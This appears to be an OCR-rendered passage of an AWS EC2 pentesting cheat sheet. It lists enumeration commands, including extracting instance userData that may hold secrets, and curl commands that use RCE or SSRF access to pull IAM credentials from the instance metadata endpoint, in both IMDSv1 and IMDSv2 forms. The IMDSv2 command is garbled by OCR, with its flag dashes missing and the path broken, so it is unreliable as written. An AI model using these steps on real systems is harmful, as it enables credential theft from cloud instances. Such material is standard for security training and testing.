 ```
aws ec2 describe-instances
```

### Listing information about a specific region

```
aws ec2 describe-instances --region region
```

### Listing information about specific instance

```
aws ec2 describe-instances --instance-ids ID
```

### Extracting UserData attribute of specified instance

```
aws ec2 describe-instance-attribute --attribute userData --instance-id instanceID
```

*This command gathers the metadata from the instance, like commands or secrets. The output is base64 encoded*

### Listing roles of an instance

```
aws ec2 describe-iam-instance-profile-associations
```

## Exploitation
* Initial access can happen by RCE or SSRF
* Metadata can be used to exfiltrate information from the instance

### Remote code execution

#### AWS Metadata
If we have remote code execution or SSRF, we can grab metadata information

```
curl http://169.254.169.254/latest/meta-data
```

##### Grabbing the keys to access the instance

```
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

##### Grabbing the keys in metadata version 2 

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/meta-data/
```
